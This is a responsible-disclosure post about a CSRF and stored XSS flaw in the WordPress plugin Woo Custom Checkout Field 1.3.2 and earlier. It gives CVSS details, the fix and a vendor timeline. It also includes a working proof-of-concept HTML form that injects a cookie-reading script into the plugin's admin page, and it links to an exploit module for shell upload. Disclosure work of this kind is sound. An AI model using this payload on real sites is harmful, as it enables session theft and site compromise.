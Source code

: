 ```yaml
---
layout: post
title: Woo Custom Checkout Field <= 1.3.2 CSRF + Stored XSS Disclosure
date: 2016-07-25
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - woo custom checkout field
  - stored xss
  - csrf
excerpt: Due to a lack of CSRF mitigation and entity encoding in the `ccf_insert` function found on line 118 of `include/ccf.php` and in the output generated by `template/datagrid.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/woo-custom-checkout-field/](https://wordpress.org/plugins/woo-custom-checkout-field/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the `ccf_insert` function found on line 118 of `include/ccf.php` and in the output generated by `template/datagrid.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.3.2 and below

## Solution
Upgrade to version 1.3.5

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=ccf_settings_menu">
    <input type="text" name="txt_field_name" value="field_name">
    <input type="text" name="txt_field_class" value="&lt;script&gt;alert(document.cookie);&lt;/script&gt;">
    <input type="text" name="txt_field_placeholder" value="placeholder">
    <input type="text" name="txt_field_type" value="text">
    <input type="text" name="txt_field_options" value="">
    <input type="submit" name="add_field" value="Submit">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/stored/woo\_custom\_checkout\_field\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/stored/woo_custom_checkout_field_xss_shell_upload.rb)

## WPVDB-ID
8567

## Disclosure Timeline
* **2016-07-23**: Identified vulnerability, contacted vendor with POC and advice on how to resolve the issue.
* **2016-07-25**: No response from vendor, contacting WordPress to report issue.
* **2016-07-26**: Public disclosure
* **2016-07-26**: Plugin removed by WordPress pending a fix from the vendor
* **2016-07-29**: Vendor released an update which fixes the issue
